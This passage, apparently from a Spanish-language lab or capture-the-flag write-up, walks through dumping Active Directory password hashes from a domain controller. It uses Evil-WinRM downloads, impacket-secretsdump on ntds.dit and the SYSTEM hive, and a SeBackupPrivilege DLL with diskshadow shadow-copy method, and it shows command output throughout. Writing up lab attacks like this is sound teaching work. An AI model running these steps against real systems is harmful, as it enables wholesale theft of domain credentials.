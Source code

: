 Descarga estos dos archivos:
```batch
*Evil-WinRM* PS C:\Temp> download system
Info: Downloading C:\Temp\system to system
Info: Download successful!
*Evil-WinRM* PS C:\Temp> download ntds.dit
Info: Downloading C:\Temp\ntds.dit to ntds.dit
Info: Download successful!
```

Y con la herramienta **impacket-secretsdump**, dumpeamos todos los hashes del **archivo ntds.dit y system hive**:
```bash
impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x9a6eda47674d4ed68313ddc1c8f9ca5b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 5e8a0e9e33e9b3e49f0767e39f3e7d29
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b43......
.....
.....
.....
```

<br>

<h3 id="Hashes2">Metodo 2: Copiando Archivos ntds.dit y SYSTEM Usando Archivos DLL</h3>

Para este método, necesitamos dos **archivos DLL** que nos ayudan a crear backups del **archivo ntds.dit y system**.

Estos los puedes descargar del siguiente repositorio (se encuentran al casi al final):
* <a href="https://github.com/giuliano108/SeBackupPrivilege?tab=readme-ov-file" target="_blank">Repositorio de giuliano108: SeBackupPrivilege</a>

Una vez que los descargues, cárgalos a la sesión de **evil-winrm** y también el **archivo DSH**:
```batch
*Evil-WinRM* PS C:\Temp> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Temp> upload SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Temp> upload berserk.dsh
```

Importa los dos **archivos DLL** a la sesión:
```batch
*Evil-WinRM* PS C:\Temp> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Temp> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Ejecuta el **archivo DSH** con **diskshadow**:
```batch
*Evil-WinRM* PS C:\Temp> diskshadow /s berserk.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  5/15/2025 5:49:36 AM

-> set context persistent nowriters
-> add volume c: alias berserk
-> create
Alias berserk for shadow ID {17343110-dc4e-4cdb-85e9-fd0d35943e06} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {a13ee0f8-6585-4e73-9e13-7696e6b73474} set as environment variable.

Querying all shadow copies with the shadow copy set ID {a13ee0f8-6585-4e73-9e13-7696e6b73474}

	* Shadow copy ID = {17343110-dc4e-4cdb-85e9-fd0d35943e06}		%berserk%
		- Shadow copy set: {a13ee0f8-6585-4e73-9e13-7696e6b73474}	%VSS_SHADOW_SET%
```